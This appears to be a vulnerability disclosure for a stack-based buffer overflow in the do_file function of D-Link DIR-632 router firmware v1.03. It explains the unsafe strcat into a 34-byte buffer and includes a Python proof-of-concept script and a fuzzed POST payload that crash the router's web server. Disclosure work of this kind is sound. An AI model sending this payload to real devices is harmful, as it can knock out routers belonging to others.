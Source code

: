 # Overview
Details of the vulnerability found in the dlink router dir-632.

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| dir-632    |  fw103    | httpsfiles.dlink.com.auproductsDIR-632REV_AFirmwareFirmware_v1.03b08DIR632A1_FW103B08.bin   |




# Vulnerability details
## 1. Vulnerability trigger Location
A stack-based buffer overflow vulnerability exists in the function `do_file` at offset 00424E88, where the `strcat` function is called without proper bounds checking. A specially crafted POST request can trigger the overflow.
![Vulnerability Trigger Location](./assets/1.png)

## 2. Vulnerability  Analysis
- This vulnerability occurs when the program processes a POST request from the user. It attempts to locate a corresponding file under the www directory; however, when constructing the file name, it uses the unsafe `strcat` function for string concatenation. The destination buffer can hold at most 34 bytes of data. Therefore, when the POST request exceeds 34 bytes, a stack-based buffer overflow can occur. A specially crafted POST request can be used to trigger this vulnerability..
![second](./assets/2.png)




# POC
## python script
```python
import socket

host = "172.17.0.177"
port = 80
file = "../crashes/payload.txt"
f = open(file, "rb")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

request = f.read()

s.send(request)

response = s.recv(4096)

print(response.decode())

s.close()
```
## Payload.txt

**Note the use of CRLF (Carriage Return and Line Feed) for line breaks.**
```
POST /�)gpo|connect.cgi*oP|�*con||||.cgi*oP|||||||||||||||nd_*.gif 
```

# Vulnerability Verification Screenshot
##  dir-632
![3.png](./assets/3.png)

# Discoverer
m202472188@hust.edu.cn
